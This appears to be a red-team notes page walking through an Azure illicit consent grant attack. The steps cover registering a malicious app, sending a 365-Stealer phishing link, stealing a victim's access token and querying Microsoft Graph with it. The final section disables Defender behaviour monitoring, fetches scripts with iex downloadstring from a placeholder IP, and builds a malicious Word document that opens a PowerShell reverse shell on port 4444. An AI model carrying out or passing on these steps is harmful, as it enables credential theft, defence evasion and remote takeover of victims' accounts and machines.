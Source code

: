 # Illicit Consent Grant

## Attack path overview

Illicit consent Grant is the most common attack on Azure.

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Methodology

* As an attacker, create a tenant (even using the free registration)
* &#x20;Use "App registration" to create a malicious App
* Send the link to a victim
* Victim grant consent to the app and an authorization response will be sent to the attacker app, containing an access token
* Attacker can use the access token to access any service on the target tenant, such as MSGraph

## Implementation

* Register a new app from Azure AD

note: Domain can also be an IP.

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

* Next, create a client secret and save it

<figure><img src="../../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Add API permission for MSGraph API

<figure><img src="../../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Grant "Delegated Permission" to access the MSGraph using the target victim account and add User.ReadBasicAll (Low impact, no admin consent needed\*) permission

<figure><img src="../../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

> In case of already getting a foothold in the target tenant (eg compromised host), it is possible to verify the Consent Grant policy. Otherwise, it is not possible, we just have to blindly test it&#x20;

```powershell
# import AzureAD-Preview powershell module

Import-Module .\AzureADPreview.psd1

# check policy
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

# if it returns ManagePermissionGrantsForSelf.microsoft-user-default-legacy, it means tha
# the user can grant consent to all apps
```

## Weaponize the App

> Diffenrent tools can be used to steal token :&#x20;
>
> * MDSEC o365-attack-toolkit
> * AlteredSec 365-Stealer **(just a POC, don't use that in PROD)**
>
>

### o365-attack-toolkit

TODO...

{% embed url="https://github.com/mdsecactivebreach/o365-attack-toolkit" %}

### 365-Stealer

{% embed url="https://github.com/AlteredSecurity/365-Stealer" %}

* clone the tool
* copy the directory into a the web server root (htdocs for windows)&#x20;



```powershell
cp APPFOLDER C:\xampp\htdocs\
```

* start Apache and browse into the 365-Stealer page

<figure><img src="../../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

* configure the tool using the "Registered App" ClientID and Secret and the Redirect URI

note: use the following place to retrieve the APP id ...

![](<../../../../../.gitbook/assets/image (3).png>)

<figure><img src="../../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* Start 365-Stealer and retrieve the Phishing link

<figure><img src="../../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* Send the malicious link to the victim

<figure><img src="../../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

> Reminder about the different parameters

<figure><img src="../../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



* Enumerate potential subdomains on the target , eg upload files etc .Send the malicious link to the victim

```powershell
import-module C:\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains  -Base TARGET -Verbose
```

* retrieve the token

<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Access Token !</p></figcaption></figure>

* decoding the token

<figure><img src="../../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

* use the token and make queries on MSGraph

```powershell
$token = "<Stolen Token>"
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

> Note: The malicious Registered App has now been added to the target Tenant, under Enterprise Applications



> ![](<../../../../../.gitbook/assets/image (1) (1).png>)

<figure><img src="../../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Target a higher privilege account

* search for an admin cloud user as a target
* Modify the application and add the following rights to be able to access and take control

![](<../../../../../.gitbook/assets/image (2) (1).png>)

* Regenerate a phishing link and send it to the target email retrieve from the previous steps



```powershell
// Generate a Word document from an another machine just as POC :)

PS C:\Windows\system32> $pass = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
PS C:\Windows\system32> $creds = New-Object System.Management.Automation.PSCredential ("HOST-vm\Administrator",$pass)
PS C:\Windows\system32> $officevm = New-PSSession -ComputerName IP -Credential $creds


PS C:\Windows\system32> Enter-PSSession -Session $officevm
[]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableBehaviorMonitoring $true
[]: PS C:\Users\Administrator\Documents> exit
PS C:\Windows\system32> Set-MpPreference -DisableBehaviorMonitoring $true
PS C:\Windows\system32> Enter-PSSession -Session $officevm


[]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://IP:PORT/Out-Word.ps1")

[]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://IP:PORT/InvokePowerShellTcp.ps1');Power -Reverse -IPAddress IP -Port 4444" -OutputFile file.doc
Saved to file file.doc

## Copy remotely
 Copy-Item -FromSession $officevm -Path C:\Users\Administrator\Documents\file.doc -Destination .
```
